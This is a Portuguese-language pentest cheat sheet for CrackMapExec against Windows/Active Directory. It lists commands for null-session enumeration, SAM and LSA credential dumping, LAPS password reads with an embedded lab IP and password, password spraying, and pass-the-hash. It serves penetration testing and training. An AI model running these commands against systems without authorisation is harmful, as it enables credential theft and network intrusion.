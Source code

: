 Crackmapexec
========================

Quado se trata de pentest em ambientes Windows/Active Directory não podemos deixar de mencionar o [**crackmaepxec**](https://github.com/byt3bl33d3r/CrackMapExec). Ela foi desenvolvida no para facilitar a vida do pentester varrer grandes redes sendo considerada o canivete suíço para tal fim. Mas, sem delongas, vamos demonstrar o poder dessa ferramenta e seus vários modos de uso e protocolos suportados...


## Uso genérico

    crackmapexec <protocolo> <opções_de_cada_protocolo>


## SMB

### Null session

Obter política de senhas via null session

    crackmapexec smb <endereço_ip> --pass-pol

Obter compartilhamentos via null session

    crackmapexec smb <endereço_ip> --shares



### Com usuário privilegiado

Usuário administrador local:

    crackmapexec smb <endereço_ip> -u Administrator

Quando obtido **Pwn3d!** no output da ferramenta, significa que temos privilégios no host alvo, sendo possível a extração dos hashes de senha da máquina:

    crackmapexec smb <endereço_ip> -u <usuario> -p <senha> --sam 

Outra opção seria de fazer o dump do lsass:

    crackmapexec smb <endereço_ip> -u <usuario> -p <senha> --lsa

## LAPS

read LAPS passwords (necessário ter permissão pe LAPS_Readers):

    crackmapexec ldap 10.10.11.152 -u svc_deploy -p E3R$Q62^12p7PLlC%KWaxuaV' -M laps


## Password spraying

    crackmapexec ldap hosts.txt -u users.txt -p P@ssword! --continue
    
    crackmapexec smb 10.10.11.152 -u users.txt -p passwords_test.txt --continue
    
    crackmapexec winrm 10.10.11.152 -u users.txt -p passwords_test.txt --continue

## Pass the hash

    crackmapexec ldap hosts.txt -u users.txt -H :<nthash> --continue
    
    crackmapexec smb <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH>
    crackmapexec winrm <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH>
    crackmapexec mssql <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH>
    crackmapexec rdp <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH>